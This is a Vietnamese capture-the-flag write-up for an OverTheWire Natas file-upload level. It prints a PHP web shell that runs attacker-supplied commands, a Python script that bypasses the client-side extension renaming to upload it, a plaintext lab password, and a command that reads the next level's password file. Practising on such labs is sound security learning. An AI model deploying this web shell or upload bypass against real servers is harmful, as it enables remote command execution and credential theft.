 # Natas11

![1](image/1.png)

- Bài này thuộc dạng *upload* file

- Tức là ta phải `upload` 1 file *backdoor.php* lên server

- Code `backdoor`:

```
	<?php
		$backdoor = $_GET['backdoor'];
		system("$backdoor");
	?>
```

- Vấn đề là *upload* lên thế nào để server chịu nhận

- `Viewsource` xem thử code thế nào

![2](image/2.png)

- Khá bất ngờ là người ra đề không hề kiểm tra file mà *upload* thẳng lên server với tên *random*

- Vấn để là bây giờ server sẽ đổi thẳng đuôi `.php` thành đuổi `.jpg`. Nhưng mà đuôi này được đổi nhờ ảnh hưởng từ phía *client* nhờ form `filename` nên mình sẽ viết code *python* để đổi lại tên trong ô `filename` 

- Code của mình:

```
	import requests

	username = 'natas12'
	password = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'

	url = 'http://%s.natas.labs.overthewire.org'%username

	file = {
		'uploadedfile' : open('backdoor.php', 'rb')
	}

	data = {
		'MAX_FILE_SIZE' : '1000',
		'filename' : 'backdoor.php',
		'submit' : 'Upload File'
	}

	response = requests.post(url, auth = (username, password), files = file, data = data)
	# response = requests.post(url+'/upload/i5gpwbn1pc.php?backdoor=cat /etc/natas_webpass/natas13', auth = (username, password))

	print(response.text)
```

![3](image/3.png)

![3](image/4.png)

